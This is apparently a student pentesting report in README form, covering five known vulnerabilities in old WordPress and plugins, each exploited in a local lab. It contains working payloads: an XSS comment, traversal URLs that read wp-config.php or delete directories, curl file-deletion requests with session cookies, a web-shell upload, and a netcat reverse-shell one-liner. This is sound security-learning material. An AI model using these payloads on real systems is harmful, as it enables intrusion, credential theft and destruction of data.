


# Project 7 - WordPress Pentesting

Time spent: **27+** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - <a href="https://www.exploit-db.com/exploits/36844/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
    
  - [ ] Steps to recreate: 
     - From the main page click on the post with open comments section
     - Scroll to the comment form and fill the fields
        - In the comment content field paste (the comment has to be at least 64kb long): 
            ```html
                <a title='x onmouseover=alert(unescape(/hello%20world/.source)) 
                style=position:absolute;left:0;top:0;width:5000px;height:5000px  
                AAAAA...[64kb]..AAA'></a>
            ```
    - Post it and get approval from the admin
    - Visit the page with your comment posted
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-includes/comment.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-includes/comment.php#L0)

2. Wordpress CodeArt Google MP3 Player plugin - File Disclosure Download
  - [ ] Summary: 
    - Vulnerability types: IDOR
    - <a href="https://www.exploit-db.com/exploits/35460/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">1.0.11</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    - 
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">plugin</a>
     - Unauthenticated user can follow this URL [http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php](http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php) and access config file with authentication unique keys and salts.
  - [ ] Affected source code:
    - [wp-content/plugins/google-mp3-audio-player/direct_download.php](https://github.com/cpom/encoremtl/blob/master/wp-content/plugins/google-mp3-audio-player/direct_download.php)

3. Wordpress <= 4.9.6 Arbitrary File Deletion Vulnerability Exploit
  - [ ] Summary: 
    - Vulnerability types: CSRF
    - <a href="https://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: 4.9.7
    - 
  - [ ] Steps to recreate: 
     - Login to an account that has an Author role
     - Add an image to library
     - Click on "Edit more details"
     - In the HTML source find a hidden input with an id "_wpnonce" and copy it's value
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=editattachment&_wpnonce=[value]&thumb=../../../../wp-config.php'```
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=editattachment&_wpnonce=8162d5bb40&thumb=../../../../wp-config.php'
        ```
     - Copy "_wpnonce" value from the link with "submitdelete deletion" class
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=delete&_wpnonce=***'```
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=delete&_wpnonce=[value]'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=delete&_wpnonce=17b7da78d8'
        ```
     - Refresh wp-admin page

  - [ ] Affected source code:
    - [/tags/4.9.6/src/wp-admin/includes/ajax-actions.php](https://core.trac.wordpress.org/browser/tags/4.9.6/src/wp-admin/includes/ajax-actions.php)

4. WordPress 3.x, 4.x Path Traversal + Directory Listing + File Deletion Vulnerabilities
  - [ ] Summary: 
    - Vulnerability types: Directory traversal/IDOR
    - <a href="https://www.homelab.it/index.php/2014/08/06/wordpress-3-4-vulnerabilities/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.9.8
    
  - [ ] Steps to recreate: 
     - Choose a plugin
     - Click on "Deactivate" and "Delete" buttons
     - Replace plugin location with target directory in the url.
        Example: ```http://localhost/wp-admin/plugins.php?action=delete-selected&checked[0]=../../../../var/www/.&plugin_status=all&paged=1&s&_wpnonce=1154979245```
     - Click on "Yes delete these files"
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-admin/plugins.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-admin/plugins.php)

5. Wordpress Work the flow file upload 2.5.2 Shell Upload Vulnerability
  - [ ] Summary: 
    - Vulnerability types: Arbitrary Code Execution
    - <a href="https://www.exploit-db.com/exploits/36640/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">2.5.2</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">plugin</a>
     - Unauthenticated user can upload the <a href="./shell_scripts/shell.php" target="_blank">shell script</a> by running this code 
     ```bash
     curl -k -X POST -F "action=upload" -F "files=@./shell.php" http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php
     ```
     - Unauthenticated user can run shell scripts on the server.
        Example: (Taken from: https://blaksec.com/index.php?title=DerpNStink:_1_~_VulnHub_-_Walkthrough#Exploitation)
     ```bash
     curl http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=hostname
     
     nc -lt -p 4444
     
     curl -G "http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/shell.php" --data-urlencode "cmd=rm -f /tmp/backpipe; mkfifo /tmp/backpipe; cat /tmp/backpipe | /bin/sh -i 2>&1|nc 192.168.56.203 4444 >/tmp/backpipe"
     ```
  - [ ] Affected source code:
    - [tags/4.2/src/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php]("./plugins_repo/index.php")

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

It was hard to find any exploits that actually work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.